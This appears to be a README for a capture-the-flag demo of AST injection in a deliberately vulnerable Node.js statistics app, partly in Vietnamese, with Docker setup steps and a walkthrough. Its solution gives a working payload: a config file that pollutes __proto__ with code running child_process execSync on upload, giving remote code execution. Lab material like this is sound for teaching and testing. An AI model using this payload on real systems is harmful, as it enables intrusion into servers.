 # AST-injection-ctf
Demo AST injection in Nodejs app. <br/>
Docker and docker-compose required!

###### Build nodejs app image
`docker build -t demo-ctf .`<br/>
Ignore all the red line while build image :)))

###### Up docker-compose
`docker-compose up -d`

###### Run app
- Go to localhost:3000
- Reload until everything work correctly

## Try to RCE ^^

### Idea
Lướt qua các chức năng của trang web có thể rút ra được những điều như sau:
- Trang web được sử dụng cho các chức năng thống kê, vẽ biểu đồ
- Có 3 model chính là ransom, ransomware và victim
- Truy cập vào đường dẫn của từng model để kiểm tra chức năng, thấy được rằng 2 model ransomware và victim có chức năng xem chi tiết
- Kiểm tra chi tiết của 2 model, thấy rằng victim chỉ có thể download thông tin, còn ransomware có thể upload cấu hình mới lên để thực hiện update, có khả năng tải lên một file để khai thác lỗ hổng bảo mật<br/>
Quan sát tiếp source code của trang web ở đúng chức năng upload file cấu hình ransomware:
- Trang web sử dụng template engine là blade
- Chức năng update được comment lại để bảo trì
```
var config = parse(req.file.buffer.toString());
// await Ransomware.update(config, { where: { id: req.params.id } })  // database locked for maintenance
res.redirect('/ransomware/' + req.params.id);
```
- Nội dung file không được làm sạch trước khi thực thi ch

### Solutions
- Tạo file exploit với nội dung dưới đây và lưu lại
```
test = 'Hey universe'
      
[__proto__.someprop]
name = "somename"
value = "somevalue"
code = "process.mainModule.require('child_process').execSync('ls')"
```
- Vào trang chi tiết của 1 ransomware bất kỳ, upload file exploit vừa tạo lên
- Kiểm tra source của trang mới, thấy rằng có thuộc someprop ở các thẻ có giá trị là kết quả của câu lệnh 'ls' được inject ở trong file exloit
